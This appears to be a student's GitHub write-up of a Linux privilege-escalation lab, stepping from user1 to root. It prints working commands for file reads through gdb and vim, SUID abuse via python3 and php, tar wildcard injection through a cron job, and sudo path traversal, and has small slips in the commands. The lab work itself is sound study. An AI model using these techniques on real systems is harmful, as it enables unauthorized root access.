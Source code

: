 # Privelege Escalation Laboratory 3
### This laboratory work is based on privelege escalation tecnhiques by exploiting different types of binaries 


## user1
**Pass:	WelcomeToCodwer**

We start with user1 and have to make our way up to user6 and then take root.

![image](https://github.com/cbr1N/codwer/assets/95069685/a102755e-85e4-4e1c-851e-43a40f126d39)

Here we should exploit the binary `/usr/bin/gdb` so that we can read the password for user2 from `/root/user2.txt`.
GTFOBins offers a file read exploit using `gdb`.

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.
This requires that GDB is compiled with Python support.

```
gdb -nx -ex 'python print(open("/root/user2.txt").read())' -ex quit
```

This is the command we use to read the contents of `/root/user2.txt`.

![image](https://github.com/cbr1N/codwer/assets/95069685/1725015a-ec04-410d-b746-8e3da61081f7)


## user2
**Pass: WolfMountedFastnessNappy**

![image](https://github.com/cbr1N/codwer/assets/95069685/c44a3255-67df-4603-8f8b-771d72e225f8)

To get the password for user3 we hve to exploit the binary `vim.basic` that is stored in `/usr/bin`. 

The exploit is pretty simple and it also is on the GTFOBins website. Just search for `vim`.
Here we use the file read exploit. 

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
vim /root/user3.txt
```

![image](https://github.com/cbr1N/codwer/assets/95069685/086ec872-30e0-4433-ae28-4db021307435)


## user3
**Pass: PebblyClaritySuperiorMournful**

![image](https://github.com/cbr1N/codwer/assets/95069685/d21b3cc1-edbd-4514-a827-41370e9bfb39)

To get to the 4th user we have to exploit the `python3.11` binary so that we can gain read access to `/root/user4.txt`.

This one was a little tricky. I found the solution on juggernaut-sec. In this example we will set the SUID bit on a binary.

The easiest way to do this would be to assign the SUID bit to bash or any other shell binary; however, if we wanted to get creative, we could add the SUID bit to any binary found on GTFObins in the SUID section, and then just follow the steps to get root. After setting the SUID bit we use the `/bin/bash -p` command to drop in a root shell.
```
ls -l /bin/bash
python3 -c 'import os;os.chmod("/bin/bash", 0o4755)'
/bin/bash -p
cat /root/user4.txt
```

![image](https://github.com/cbr1N/codwer/assets/95069685/6fda0215-d35d-48d7-867a-010dbfa90350)


## user4
**Pass: JustifierDetachedCuppedEndurable**

![image](https://github.com/cbr1N/codwer/assets/95069685/d79eb96e-d6e5-47e7-a009-be79de42bb57)

Here the task is to exploit the `php8.2` binary. One common php exploit is to execute a command that we want as root with teh help of `posix_setuid(0)` 0 meaning the user id of root of course.

```
php -r "posix_setuid(0); system('cat /root/user5.txt');"
```

After setting our user id to 0 for executing this specific command, that being `cat /root/user5.txt` we easily get the password for user5.

![image](https://github.com/cbr1N/codwer/assets/95069685/286d13cb-4bea-4f03-a609-ad792301da2e)


## user5
**Pass: VentureRangedConveneVirus**

![image](https://github.com/cbr1N/codwer/assets/95069685/2dd05354-767c-48dc-8a26-96349dc0ceea)

To get past this task we have to exploit a cronjob. To be more exact we have to use command injection through a cron job. We also have the `pspy` script so that we can see the processes without root permissions.

![image](https://github.com/cbr1N/codwer/assets/95069685/cedbc69c-a995-4f00-975c-3680febd09f0)

Here are all the commands that are being executed every 50 seconds:

`/usr/bin/rm /home/user5/backup.tar.gz`  This command removes the file `backup.tar.gz` in the /home/user5 directory.

`/usr/sbin/CRON -f`  These are instances of the CRON daemon, which is responsible for executing scheduled tasks. The `-f` flag indicates running in the foreground.

`/bin/sh -c cd /home/user5 && /usr/bin/tar -czuf backup.tar.gz *`  This shell command changes the directory to `/home/user5` and creates a tarball named `backup.tar.gz` containing all files (`*`).

`/bin/sh -c cd / && run-parts --report /etc/cron.hourly`  This shell command changes the directory to the root directory (`/`) and runs all scripts in `/etc/cron.hourly`, reporting their execution.

`/bin/sh -c sleep 50 && /usr/bin/rm /home/user5/backup.tar.gz`  This command sleeps for 50 seconds and then removes the `backup.tar.gz` file from the `/home/user5` directory.

`/usr/bin/tar -czuf backup.tar.gz README.md pspy`  This tar command creates a compressed tarball named `backup.tar.gz` containing the files `README.md` and `pspy`.

`gzip`  This command is used to compress files using the gzip algorithm.

To exploit this cronjob we have to follow these exact steps:
```
echo "cp /bin/bash /tmp/myshell; chmod +s /tmp/myshell" > /home/user5/pwn.sh
chmod +x /home/user/pwn.sh
touch /home/user5/--checkpoint=1
touch /home/user5/--checkpoint-action=exec=sh\ pwn.sh
/tmp/myshell -p
cat /root/user6.txt
```

We created a script called `pwn.sh` in the `/home/user5` directory. This script is designed to copy the `/bin/bash` executable to `/tmp/myshell` and then change its permissions so that it can be run with elevated privileges.

We changed the permissions of the `pwn.sh` script to make it executable. This allows us to run the script later.

We created an empty file named `--checkpoint=1` in the `/home/user5` directory. This file is part of our strategy to exploit a specific parsing behavior in some programs.

We created another file named `--checkpoint-action=exec=sh pwn.sh` in the `/home/user5` directory. This file is intended to trigger the execution of our `pwn.sh` script when a checkpoint is reached by certain programs.

Finally, we executed the `/tmp/myshell` shell with the `-p` option. This preserves the effective user ID, allowing us to run the shell with root privileges. Since we had previously set the setuid bit on this shell, it runs with the permissions of the root user, effectively giving us a root shell.

![image](https://github.com/cbr1N/codwer/assets/95069685/3245d0c4-a95e-481e-adf2-e56901a75a30)


## user6
**Pass: RearViewUnscathedSantaRamble**

![image](https://github.com/cbr1N/codwer/assets/95069685/37e20fb3-d0fa-454e-9ae9-24fb9529fd15)

Here we have to use command injection exploiting the sudo rights given to user6.
As we can see user6 can run any Python 3 script located in the `/root/` directory as the root user without needing to provide a password. 

This exercise was a tricky one. We don't actually need command injection. What we really need to use is path traversal. But before that we should make some preparations.

Firstly we create a `.py` file. For example `lol.py`. We write a python sript that renames the file `password.txt` to `password.py` so that we will be able to open it using the `sudo python3` method.
But to actually run this script from our `/home/user6` path we can trick the system using the path traversal technique.

If the file path uses wildcards, we may execute arbitrary files.
In short, we can refer to files in different directories which the system owner unintended.

```
sudo -l
echo 'import os; os.rename("/root/password.txt", "/root/password.py")' > lol.py
sudo python3 /root/../../../home/user6/lol.py
sudo python3 /root/password.txt
```

![image](https://github.com/cbr1N/codwer/assets/95069685/3420331b-7898-4353-a8cb-b917fec8e7b4)


## root
**Pass: CapsAndMissesEverywhere**


## Lessons learned
I have learned a lot of things working on these tasks.

Understanding system components like `gdb`, `vim`, `python3`, `php8.2` and cron jobs. Knowing how these components operate and interact with the system is crucial for identifying potential avenues for exploitation.

Of course the most important part were the exploit techniques like file read exploits, setting SUID bits, command injection and path traversal.


## Useful links
- [https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-path-traversal-privilege-escalation/]

- [https://juggernaut-sec.com/capabilities/#Exploiting_Various_Capabilities]

- [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities]

- [https://book.hacktricks.xyz/pentesting-web/command-injection]
